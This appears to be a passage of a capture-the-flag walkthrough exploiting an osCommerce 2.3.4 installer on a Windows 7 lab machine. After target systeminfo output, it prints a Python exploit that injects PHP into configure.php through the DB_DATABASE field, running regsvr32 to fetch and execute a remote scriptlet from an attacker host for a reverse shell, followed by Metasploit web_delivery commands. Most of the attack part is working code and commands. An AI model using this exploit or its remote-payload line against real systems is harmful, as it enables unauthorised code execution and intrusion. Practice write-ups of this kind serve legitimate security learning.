 See its working.Lets get a reverse shell.

Warning: Unterminated comment starting line 27 in C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes\configure.php on line 27
Host Name: BLUEPRINT OS Name: Microsoft Windows 7 Home Basic OS Version: 6.1.7601 Service Pack 1 Build 7601 OS Manufacturer: Microsoft Corporation OS Configuration: Standalone Workstation OS Build Type: Multiprocessor Free Registered Owner: Windows User Registered Organization: Product ID: 00346-OEM-8992752-50005 Original Install Date: 1/15/2017, 6:48:59 AM System Boot Time: 11/13/2020, 3:23:02 PM System Manufacturer: Xen System Model: HVM domU System Type: X86-based PC Processor(s): 1 Processor(s) Installed. [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz BIOS Version: Xen 4.2.amazon, 8/24/2006 Windows Directory: C:\Windows System Directory: C:\Windows\system32 Boot Device: \Device\HarddiskVolume1 System Locale: en-us;English (United States) Input Locale: en-us;English (United States) Time Zone: (UTC+00:00) Dublin, Edinburgh, Lisbon, London Total Physical Memory: 2,048 MB Available Physical Memory: 965 MB Virtual Memory: Max Size: 4,095 MB Virtual Memory: Available: 2,922 MB Virtual Memory: In Use: 1,173 MB Page File Location(s): C:\pagefile.sys Domain: WORKGROUP Logon Server: N/A Hotfix(s): 3 Hotfix(s) Installed. [01]: KB2534111 [02]: KB976902 [03]: KB4012215 Network Card(s): 1 NIC(s) Installed. [01]: Citrix PV Ethernet Adapter Connection Name: Local Area Connection 3 DHCP Enabled: Yes DHCP Server: 10.10.0.1 IP address(es) [01]: 10.10.5.73 [02]: fe80::9de8:8c8:825d:73bc

Change the contents of payload to:

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += 'system("regsvr32 /s /n /u /i:http://10.9.81.62:8080/eHDL3qPnhov.sct scrobj.dll");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")



msf6 exploit(multi/script/web_delivery) > set target 3
target => 3
msf6 exploit(multi/script/web_delivery) > options

